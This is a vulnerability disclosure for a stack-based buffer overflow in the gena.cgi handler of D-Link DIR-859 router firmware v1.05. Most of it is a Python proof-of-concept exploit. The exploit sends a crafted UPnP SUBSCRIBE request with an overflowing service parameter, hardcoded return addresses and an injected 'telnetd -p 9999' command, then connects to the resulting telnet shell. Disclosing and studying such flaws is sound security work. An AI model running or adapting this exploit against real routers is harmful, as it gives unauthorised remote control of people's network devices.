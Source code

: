 Vendor of the products:　D-link

Reported by: 　　　　　 chunkl.hit@gmail.com

Affected products:　　　DIR-859

Vendor Advisory:       https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10267


# Overview
The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the D-Link DIR-859 Wi-Fi router firmware v1.05. In the genacgi_main function of the cgibin program, the sprintf method directly uses the service parameter from /gena.cgi. The attackers can construct a payload to carry out arbitrary code attacks.

# Vul Details

![avatar](img/Picture1.jpg)

# Code in genacgi_main:
![avatar](img/Picture2.jpg)

# Poc
    from pwn import *
    import socket
    import os
    from time import sleep


    def httpSUB(server, port, shell_file):
        print('\n[*] Connection {host}:{port}').format(host=server, port=port)
        con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
        request += "Host: " + str(server) + str(port) + "\n"
        request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
        request += "NT: upnp:event\n"
        request += "CONTENT-TYPE: application/x-www-form-urlencoded"+"a"*0x120+"\n"
        request += "Timeout: Second-1800\n"
        request += "Accept-Encoding: gzip, deflate\n"
        request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
        sleep(1)
        print('[*] Sending Payload')
        con.connect((socket.gethostbyname(server),port))
        con.send(request)
        results = con.recv(4096)
        sleep(1)
        print('[*] Running Telnetd Service')
        sleep(1)
        print('[*] Opening Telnet Connection\n')
        sleep(2)
        os.system('telnet ' + str(server) + ' 9999')

    serverInput = "192.168.0.1"
    portInput = 49152
    httpSUB(serverInput, portInput, "a"*0xAA+p32(0xc068FF7F)+"a"*4+p32(0xD0A2B42A)+p32(0x14D9B22A)+"telnetd -p 9999;a")
